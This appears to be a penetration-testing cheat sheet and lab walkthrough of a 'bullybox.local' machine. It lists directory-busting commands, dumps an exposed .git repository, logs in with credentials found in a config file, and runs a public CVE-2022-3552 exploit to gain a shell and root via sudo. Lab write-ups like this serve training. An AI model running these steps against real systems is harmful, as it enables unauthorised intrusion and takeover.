







# Mapping
**robots.txt:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```
# PHP

**Check phpinfo or phpmyadmin:**


Running dirb we notice:

There is a git directory

Using git-dumper:
```
git-dumper http://bullybox.local/.git git
```

There is bb-config.php:


We can login at /bb-admin:


Logging in with `admin@bullybox.local : Playing-Unstylish7-Provided`


Now we can us this [exploit](https://github.com/kabir0x23/CVE-2022-3552)
```
python3 CVE-2022-3552.py -d http://bullybox.local/ -u admin@bullybox.local -p 'Playing-Unstylish7-Provided'
```
After changing the ip:


Now we get a shell:



Now check id:

We are sudo group so with `sudo su`
